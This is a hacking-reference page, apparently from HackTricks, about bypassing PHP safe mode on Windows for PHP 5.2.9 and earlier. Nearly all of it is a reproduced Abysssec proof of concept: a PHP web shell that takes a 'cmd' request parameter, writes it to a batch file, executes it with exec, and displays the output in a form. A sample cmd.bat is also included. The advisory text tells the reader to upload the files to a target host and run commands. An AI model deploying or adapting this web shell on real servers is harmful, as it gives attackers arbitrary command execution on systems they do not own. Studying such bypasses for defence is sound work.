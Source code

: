 # PHP &lt;= 5.2.9 on windows

{{#include ../../../../banners/hacktricks-training.md}}


From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

{{#tabs}}
{{#tab name="exploit.php"}}

```php
<?php
//cmd.php
/*
	Abysssec Inc Public Advisory

	Here is another safemod bypass vulnerability exist in php <= 5.2.9 on windows .
	the problem comes from OS behavior - implement  and interfacing between php
	and operation systems directory structure . the problem is php won't tell difference
	between directory browsing in linux and windows this can lead attacker to ability
	execute his / her commands on targert machie even in SafeMod On  (php.ini setting) .
	=============================================================================
	in linux when you want open a directory for example php directory you need
	to go to /usr/bin/php and you can't use \usr\bin\php . but windows won't tell
	diffence between slash and back slash it means there is no didffrence  between
	c:\php and c:/php , and this is not vulnerability but itself but  because of this  simple
	php implement "\" character can escape safemode using  function like excec .
	here is a PoC for discussed vulnerability . just upload files on your target host and execute
	your commands .
	==============================================================================
	note : this vulnerabities is just for educational purpose and author will be not be responsible
	for any damage using this vulnerabilty.
	==============================================================================
	for more information visit Abysssec.com
	feel free to contact me at admin [at] abysssec.com
*/
	$cmd = $_REQUEST['cmd'];
	if ($cmd){
	$batch = fopen ("cmd.bat","w");
	fwrite($batch,"$cmd>abysssec.txt"."\r\n");
	fwrite($batch,"exit");
	fclose($batch);
	exec("\start cmd.bat");
	echo "<center>";
	echo "<h1>Abysssec.com PHP <= 5.2.9 SafeMod Bypasser</h1>";
	echo "<textarea rows=20 cols=60>";
	require("abysssec.txt");
	echo "</textarea>";
	echo "</center>";
	}
?>

<html>
<body bgcolor=#000000 and text=#DO0000>
<center>
<form method=post>
<input type=text name=cmd >
<input type=submit value=bypass>
</form>
</center>
</body>
</html>
```

{{#endtab}}

{{#tab name="cmd.bat"}}

```
dir > abyss.txt
exit
```

{{#endtab}}
{{#endtabs}}

{{#include ../../../../banners/hacktricks-training.md}}



